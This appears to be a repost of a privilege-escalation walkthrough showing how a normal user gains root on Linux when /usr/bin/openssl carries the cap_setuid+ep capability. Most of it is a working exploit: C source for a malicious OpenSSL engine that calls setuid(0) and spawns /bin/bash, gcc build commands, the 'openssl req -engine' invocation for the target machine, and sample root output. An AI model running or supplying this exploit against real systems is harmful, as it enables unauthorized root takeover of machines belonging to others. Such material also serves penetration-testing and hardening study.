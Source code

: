 # All credit goes to chaudhary1337 
**check out the original post:**
https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/

**---- *Modified by LV6LV* ----**

Consider the binary /usr/bin/openssl has capabilities set as: /usr/bin/openssl = cap_setuid+ep 

Is there a way to become root from a normal user by using this? 
> yes... yes there is a way.

## Search all the binaries' capibilities using: 
```
getcap -r / 2>/dev/null.
```
> getcap is the tool we will use
-r is the recursive flag
2>/dev/null directs the standard error stream to /dev/null


If you see /usr/bin/openssl = cap_setuid+ep, we are set for success.

## 1. Requirements (On Your System)
We will use #include <openssl/engine.h> header in our exploit engine file. On debian based systems, use: sudo apt-get install libssl-dev to install.
gcc

## 2. Getting The Exploit Ready
Create a file named openssl-exploit-engine.c with contents as such:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Check reference number 2  below for more information.

## 3. Compiling
Run the following:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
```
It is safe to ignore warnings below:

> implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]

> implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]

Next run:
```
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```
Resultant is the openssl-exploit-engine.so file.

## 4. Transfer the file to target machine
Once you have the file on the target machine, run the following command below.

openssl req -engine \<full path to openssl-exploit-engine.so file\>

Sample output if openssl-exploit-engine.so is located in the /tmp directory
```
$ openssl req -engine /tmp/openssl-exploit-engine.so
# whoami
root
```
**Enjoy!**

## Common Errors
> fatal error: openssl/engine.h: No such file or directory #include <openssl/engine.h>
  
Fix by installing libssl-dev (sudo apt-get install libssl-dev)

## 7. References

1. Read up more on capabilities. 
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities
2. OpenSSL building a useless engine
  https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/
3. How to use the library load feature OpenSSL
  https://gtfobins.github.io/gtfobins/openssl/#library-load
